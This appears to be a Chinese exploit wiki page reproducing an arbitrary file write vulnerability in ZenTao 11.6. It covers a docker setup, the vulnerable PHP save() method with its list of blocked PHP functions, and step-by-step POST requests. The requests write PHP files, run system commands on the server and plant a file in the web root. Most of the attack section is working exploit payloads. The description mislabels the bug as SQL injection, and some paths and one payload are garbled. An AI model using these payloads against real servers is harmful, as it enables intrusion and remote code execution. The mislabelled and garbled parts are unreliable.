 # 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](/assets/PeiQi-Wiki/img/zentao-1-20220313232232109.png)



## 漏洞复现



这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

查看`module/api/ediyor/moudel.php`下的`save方法`

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```



`$filePath参数和$fileContent参数` 我们是可控的



调用方法往 `/tmp`写入一个`phpinfo()`



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell.php

fileContent=<?php phpinfo();?>
```



![img](/assets/PeiQi-Wiki/img/zentao-24.png)



![img](/assets/PeiQi-Wiki/img/zentao-25.png)



在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含



```plain
/api-getModel-api-getMethod-filePath=/tmp/shell/1
```



![img](/assets/PeiQi-Wiki/img/zentao-26.png)



也可以写入网站目录中



先获取地址



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php system('find / -name ioncube.php')?>');?>
```



访问 `/api-getModel-api-getMethod-filePath=/tmp/shell/1`



![img](/assets/PeiQi-Wiki/img/zentao-27.png)



得到目录为 `/app/zentaopma/www`



请求改为



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

<a-alert type="success" message="再去访问 /api-getModel-api-getMethod-filePath=/tmp/shell/1，则会再网站目录下生成 xxx.php 文件" description="" showIcon>
</a-alert>
<br/>

![img](/assets/PeiQi-Wiki/img/zentao-28.png)



![img](/assets/PeiQi-Wiki/img/zentao-29.png)


